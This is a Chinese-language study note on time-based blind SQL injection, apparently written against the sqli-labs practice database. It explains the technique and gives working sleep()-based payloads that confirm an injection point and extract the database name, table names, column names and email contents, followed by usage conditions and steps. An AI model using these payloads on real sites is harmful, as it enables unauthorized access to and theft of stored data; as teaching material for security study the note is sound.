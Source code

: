 
### 时间盲注

也是页面不返回任何信息，采用延迟函数根据页面反应的时间进行判断是否存在注入点，当延时设置得足够长，就可以忽略掉服务器和网络速度带来的延时误差了

```
?id=1' and if(length(database())>1,sleep(6),1) --+
```

当判断存在时间盲注，那么就是正常流程



爆库名

```
?id=1' and if(substr(database(),1,1)='s',sleep(6),1) --+
```

爆表名

```
?id=1' and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',sleep(6),1) --+
```

爆字段名

```
?id=1' and if(substr((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)='d',sleep(6),1) --+
```

爆字段内容

```
?id=1' and if(substr((select email_id from emails limit 0,1),1,1)='x',sleep(6),1) --+
```





#### 另外：

参考资料：

[超硬核，SQL注入之时间盲注，原理+步骤+实战思路-CSDN博客](https://blog.csdn.net/wangyuxiang946/article/details/123857045)



基于时间的盲注，延时注入，但是优先级不高，实际操作时先考虑联合注入、报错注入、布尔盲注

使用场景：

1. 页面没有回显位置（联合注入无法使用
2. 页面不显示数据库的报错信息（报错注入无法使用
3. 无论成功还是失败，页面只响应一种结果（布尔盲注无法使用



使用步骤：

1. 判断注入点
2. 判断长度
3. 枚举字符
